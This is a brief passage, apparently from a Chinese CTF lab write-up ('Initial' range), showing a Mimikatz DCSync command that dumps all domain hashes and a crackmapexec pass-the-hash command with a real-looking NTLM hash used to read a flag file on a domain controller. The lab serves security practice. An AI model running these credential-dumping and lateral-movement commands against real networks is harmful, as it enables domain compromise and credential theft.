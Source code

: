 ### crackmapexec

这里要通过猕猴桃获取administrator的hash

```
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
```

![image-20230802113109857](img/春秋云镜-Initial/image-20230802113109857.png)

crackmapexec进行hash传递攻击

```
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```
